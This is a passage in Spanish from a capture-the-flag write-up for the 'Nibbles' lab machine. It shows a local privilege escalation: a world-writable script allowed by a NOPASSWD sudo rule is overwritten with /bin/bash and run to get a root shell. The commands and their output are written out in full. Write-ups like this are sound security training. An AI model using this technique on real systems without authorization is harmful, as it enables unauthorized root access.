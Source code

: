 ```bash
nibbler@Nibbles:/home/nibbler$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
nibbler@Nibbles:/home/nibbler$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$
```

Vemos que podemos ejecutar `/home/nibbler/personal/stuff/monitor.sh` como el usuario **root** sin proporcionar contraseña; por lo tanto vamos a ver los permisos que disponemos sobre el script.

```bash
nibbler@Nibbles:/home/nibbler$ ls -l
total 8
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Mar 18 02:36 user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ ls -l
total 12
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 personal
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Mar 18 02:36 user.txt
nibbler@Nibbles:/home/nibbler$ cd personal
nibbler@Nibbles:/home/nibbler/personal$ ls -l
total 4
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 stuff
nibbler@Nibbles:/home/nibbler/personal$ cd stuff/
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$
```

Tenemos permisos de lectura, escritura y ejecución, por lo tanto vamos a cambiar el contenido de dicho script:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh 
#!/bin/bash

/bin/bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
root@Nibbles:/home/nibbler/personal/stuff#
```

Ya somos el usuario **root** y podemos visualizar al flag (root.txt).
